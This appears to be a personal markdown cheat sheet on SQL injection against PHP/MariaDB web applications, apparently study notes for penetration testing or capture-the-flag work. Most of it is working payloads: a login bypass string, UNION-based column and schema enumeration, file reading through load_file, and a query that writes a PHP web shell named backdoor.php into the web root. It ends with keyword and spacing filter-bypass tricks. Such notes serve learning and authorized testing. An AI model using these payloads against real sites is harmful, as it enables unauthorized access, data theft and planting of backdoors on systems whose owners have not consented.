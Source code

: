 # SQL Injection
> Syntax for PHP/MariaDB


### Identifying
Need to find locations where data might pass through a database.
* Products on e-commerce site
* Message threads on a forum
* Authentication/login page

> To identify, throw in random characters such as ;, ', ", #, UNION SELECT, 


### Authentication Bypass
Default payload: `' or 1=1;#`

If this was sent in as the username, the sql query on the backend would change as the following:  
`select * from users where name = 'tom' or 1=1;#' and password = 'jones'; `     
The `#` will comment the rest of the query out.  
This query will return all rows where users with the name of tom   

Sometimes if there is more than one row, that might throw errors with the database, so it might be a good idea to add a LIMIT 1 to the query.  
`select * from users where name = 'tom' or 1=1 LIMIT 1;#`  


### Column number enumeration id based

**Source code:**  
`$sql = "SELECT id, name, text FROM feedback WHERE id=". $_GET['id']; `
  
**Enumeration:**   
`http://10.11.0.22/debug.php?id=1 order by 1`

Submit multiple queries by increasing order by number until there’s errors. Errors indicate maximum columns 

Once we know how many columns are in the table, we can use to extract more with `UNION`

`<ip>/xyz?id=1 union all select 1, 2, 3` This will return row 1 with 3 columns. Errors get thrown when we ask for things that do not exist  

The page now displays the position of the different columns so you will see 1,2,3 values in the different columns displayed  
  

### Extracting Data from the Database

> https://www.sqlinjection.net/database-fingerprinting/


`ip/xyz?id=1 union all select 1, 2, @@version` This will extract the database version and put it in where it previously put 3 for column 3


Now we can enumerate the information_schema and dig into the tables to retrieve values.  
`ip/xyz?id=1 union all select 1, 2, table_name from information_sc hema.tables`
  
Can enumerate for users in the users table:
```
SELECT *
FROM INFORMATION_SCHEMA.COLUMNS
WHERE TABLE_NAME = users
```

### SQLi to Code Execution

`ip/xyz?id=1 union all select 1, 2, load_file('C:/Windows/System32 /drivers/etc/hosts')`

If we see error messages, we should know the location of the web root.

`ip/xyz?id=1 union all select 1, 2, "<?php echo shell_exec($_GET[' cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'`

### Filter bypass

> Good enough for CTF's
> https://portswigger.net/support/sql-injection-bypassing-common-filters 


For spacing filters, can use comments:
Example: `union/**/select`

For keyword filters, can use mix of capital letters:  
`uNiOn, sElEcT`